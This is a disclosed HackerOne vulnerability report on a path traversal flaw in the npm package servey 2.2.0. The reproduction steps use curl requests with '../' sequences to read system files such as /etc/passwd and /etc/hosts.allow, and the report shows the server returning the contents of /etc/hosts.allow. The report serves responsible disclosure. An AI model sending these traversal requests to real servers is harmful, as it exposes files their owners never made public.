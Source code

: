 # [servey] Path Traversal allows to retrieve content of any file with extension from remote server

## Report Details
- **Report ID**: 355501
- **URL**: https://hackerone.com/reports/355501
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-05-21T13:15:10.580Z
- **Disclosed**: 2019-04-03T20:08:41.745Z

## Reporter
- **Username**: bl4de
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
Hi Team,

I would like to report a partial Path Traversal in ```servey``` module.
It allows to read content of any arbitrary file (with extension) from the server.

## Module

**module name:** servey
**version:** 2.2.0
**npm page:** https://www.npmjs.com/package/servey

### Module Description

A static & single page application server.

### Module Stats

~120-200 downloads/month (estimated)

## Vulnerability Description



## Steps To Reproduce:

- Install ```servey``` module:

```
$ npm install servey
```

- create sample application following an example from module's npm doc:

```javascript
// app.js
const Servey = require('servey');
const Path = require('path') 
const server = Servey.create({
    spa: true,
    port: 8080,
    folder: Path.join(__dirname, 'static')
});

server.on('error', function (error) {
    console.error(error);
});

server.on('request', function (req) {
    console.log(req.url);
});

server.on('open', function () {
    console.log('open');
});

server.open();
```

- run app:

```
$ node app.js 
open

```


- try to retrieve content of ```/etc/passwd``` (an example file without any extension). ```servey``` does not allow to open such file and throws HTTP 500 Internal Server Error:

```
$ curl -v --path-as-is localhost:8080/../../../../../../etc/passwd
*   Trying ::1...
* connect to ::1 port 8080 failed: Connection refused
*   Trying 127.0.0.1...
* Connected to localhost (127.0.0.1) port 8080 (#0)
> GET /../../../../../../etc/passwd HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 500 Internal Server Error
< Content-Type: text/html; charset=utf8
< Date: Mon, 21 May 2018 13:08:15 GMT
< Connection: keep-alive
< Transfer-Encoding: chunked
< 
* Connection #0 to host localhost left intact
{"code":500,"message":"Internal Server Error"}

```

- verify logs that request failed:

```
$ node app.js 
open
/../../../../../../etc/passwd
{ Error: ENOENT: no such file or directory, open '/home/rafal.janicki/playground/hackerone/node/static/index.html'
  errno: -2,
  code: 'ENOENT',
  syscall: 'open',
  path: '/home/rafal.janicki/playground/hackerone/node/static/index.html' }
```


- now, try to execute following curl command to retrieve content of ```/etc/hosts.allow``` (adjust amount of ../ to reflect your system):

```
$ curl -v --path-as-is localhost:8080/../../../../../../etc/hosts.allow
*   Trying ::1...
* connect to ::1 port 8080 failed: Connection refused
*   Trying 127.0.0.1...
* Connected to localhost (127.0.0.1) port 8080 (#0)
> GET /../../../../../../etc/hosts.allow HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Content-Type: undefined; charset=utf8
< Date: Mon, 21 May 2018 13:06:38 GMT
< Connection: keep-alive
< Transfer-Encoding: chunked
< 
# /etc/hosts.allow: list of hosts that are allowed to access the system.
#                   See the manual pages hosts_access(5) and hosts_options(5).
#
# Example:    ALL: LOCAL @some_netgroup
#             ALL: .foobar.edu EXCEPT terminalserver.foobar.edu
#
# If you're going to protect the portmapper use the name "rpcbind" for the
# daemon name. See rpcbind(8) and rpc.mountd(8) for further information.
#

* Connection #0 to host localhost left intact

```

- check ```servey``` app logs again:

```
$ node app.js 
open
/../../../../../../etc/passwd
{ Error: ENOENT: no such file or directory, open '/home/rafal.janicki/playground/hackerone/node/static/index.html'
  errno: -2,
  code: 'ENOENT',
  syscall: 'open',
  path: '/home/rafal.janicki/playground/hackerone/node/static/index.html' }
/../../../../../../etc/hosts.allow

```

You can see ```hosts.allow``` requets did not fail and the content of the file was retrieved.


## Patch

N/A

## Supporting Material/References:

- Operating system: Ubuntu 16.04
- Node.js 8.11.1
- npm v. 6.0.1
- curl 7.47.0

## Wrap up

- I contacted the maintainer to let him know: [N] 
- I opened an issue in the related repository: [N] 


Regards,

Rafal 'bl4de' Janicki

## Impact

An attacker is able to retrieve content of any file with extension from remote server.

## Attachments
No attachments
